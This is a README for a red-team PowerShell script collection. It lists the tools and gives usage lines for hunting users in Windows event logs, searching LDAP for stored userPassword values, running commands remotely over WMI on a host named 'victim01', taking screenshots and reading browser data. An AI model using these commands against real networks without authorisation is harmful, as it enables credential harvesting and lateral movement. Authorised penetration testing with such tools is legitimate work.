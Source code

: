 # Red Team Powershell Scripts

```
Search-EventForUser.ps1: Powershell script that search through the Windows event logs for specific user(s)
Search-FullNameToSamAccount.ps1: Full name to SamAccountName
Search-UserPassword.ps1: Search LDAP for userPassword field
Search-users.ps1: Search-FullNameToSamAccount, Search-EventForUser and Search-UserPassword merged together
Remote-WmiExecute.ps1: Execute command remotely using WMI
Take-Screenshot.ps1: Take a screenshot (PNG)
Get-BrowserHomepage.ps1: Get browser homepage
Get-IEBookmarks.ps1: List all Internet Explorer bookmarks URLs
```

# Search-EventForUser.ps1 Usage
```
module-import .\Search-EventForUser.ps1; Search-EventForUser -UserName "MrUn1k0d3r"

module-import .\Search-EventForUser.ps1; "MrUn1k0d3r" | Search-EventForUser

module-import .\Search-EventForUser.ps1; Search-EventForUser -UserName MrUn1k0d3r -ComputerName DC01

module-import .\Search-EventForUser.ps1; Search-EventForUser -UserName MrUn1k0d3r -FindDC true

module-import .\Search-EventForUser.ps1; "god", "mom" | Search-EventForUser -FindDC true
```
The -User parameter support single user or a list of users from pipeline

# Search-FullNameToSamAccount.ps1 Usage
```
module-import .\Search-FullNameToSamAccount.ps1; Search-FullNameToSamAccount -Filter *god*

module-import .\Search-FullNameToSamAccount.ps1; "god", "mom" | Search-FullNameToSamAccount
```

# Search-UserPassword.ps1 Usage
```
module-import .\Search-UserPassword.ps1; Search-UserPassword -Username *god*

module-import .\Search-UserPassword.ps1; "god", "mom" | Search-UserPassword
```

# Remote-WmiExecute.ps1 Usage
```
module-import .\Remote-WmiExecute.ps1; Remote-WmiExecute -ComputerName victim01 -Payload "cmd.exe /c whoami"
```

# Take-Screenshot.ps1 Usage
```
module-import .\Take-Screenshot.ps1; Take-Screenshot -Path C:\test.png
```

# Get-BrowserHomepage.ps1 Usage
```
module-import .\Get-BrowserHomepage.ps1; Get-BrowserHomepage
```

# Get-IEBookmarks.ps1 Usage
```
module-import .\Get-IEBookmarks.ps1; Get-IEBookmarks
```

# Todo

1. Remote-WmiExecute.ps1:
  * Improve errors handling (Access Denied etc...)
2. Take-Screenshot.ps1:
  * Handle multiple screens

# Credit
Charles F. Hamilton Aka Mr.Un1k0d3r RingZer0 Team
